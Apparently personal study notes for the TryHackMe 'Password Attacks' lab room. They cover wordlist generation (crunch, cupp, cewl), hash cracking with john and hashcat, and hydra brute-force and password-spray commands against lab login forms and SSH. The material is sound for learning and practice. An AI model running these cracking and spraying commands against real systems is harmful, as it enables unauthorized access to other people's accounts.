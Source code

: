 # room
https://tryhackme.com/room/passwordattacks

# task 1 - intro
* passwords are used as an authentication method

# task 2 - password attacking techniques
* password cracking - discover passwords from encrypted or hash data
* password guessing - guess passwords based on dictionaries

# task 3 - default, weak, leaked, combined, and username wordlists
* default passwords
* weak passwords
* leaked passwords
* wordlists
    * cewl

# task 4 - keyspace, cupp
* keyspace - limit total character space
    * crunch
        * crunch 2 2 01234abcd -o crunch.txt
        * crunch 5 5 -t THM^^ -o tryhackme.txt
* cupp - common user password profiler
    * create custom wordlists based on a user profile

# task 5 - dictionary and brute force
* dictionary attack - use well known words, phrases
* hashes
    * hashcat, hashid
* brute force - guess using a wordlist
    * hashcat, john
* hashid 8d6e34f987851aa599257d3831a1af040886842f
* john -w=/usr/share/wordlists/rockyou.txt h.txt
* hashcat -a 3 -m 0 h2.txt ?d?d?d?d

# task 6 - rule based
* rule based AKA hybrid attacks - assumes attacker knows something about the password policy
* john built in rules
    * cat /etc/john/john.conf | grep "List.Rules:" | cut -d":" -f2 | cut -d"]" -f1
    * john --wordlist=temp.txt --rules=best64 --stdout | wc -l
    ```
    john --wordlist=temp.txt --rules=KoreLogic --stdout | grep "Tryh@ckm3"
    Using default input encoding: UTF-8
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Tryh@ckm3
    Tryh@ckm3
    7089833p 0:00:00:01 100.00% (2022-02-25 08:45) 4487Kp/s tryhackme999999
    ```

# task 7 - deploy VM
deploy VM

# task 8 - online password attacks
* generate a wordlist using cewl
```
cewl -w clinic.txt -d 5 -m 8 https://clinic.thmredteam.com/
```
* generate a wordlist using john from cewl output
```
john --wordlist=clinic.txt --rules=Single-Extra --stdout > single-extra.txt          
```
* use hydra to attack get and post forms
```
hydra -l phillips -P single-extra.txt 10.10.3.141 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -vvv -I

hydra -l burgess -P single-extra.txt 10.10.3.141 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f -vvv -t 32 -I
```

# task 9 - password spray attack
* password spraying targets many usernames using one common weak password
* common weak passwords follow a trend like current season and date
* create custom wordlist
```
rm -f spray.txt;for year in $(seq 2019 2022);for season (Spring spring Summer summer Fall fall Winter winter);for char (\! \@ \# $);do echo $season$year$char >> spray.txt;done 
```
* use hydra to attack SSH with the custom wordlist
```
hydra -L users.txt -P spray.txt ssh://10.10.73.168:22 -vvv -t 4 -I    
```

# task 10 - conclusion
conclusion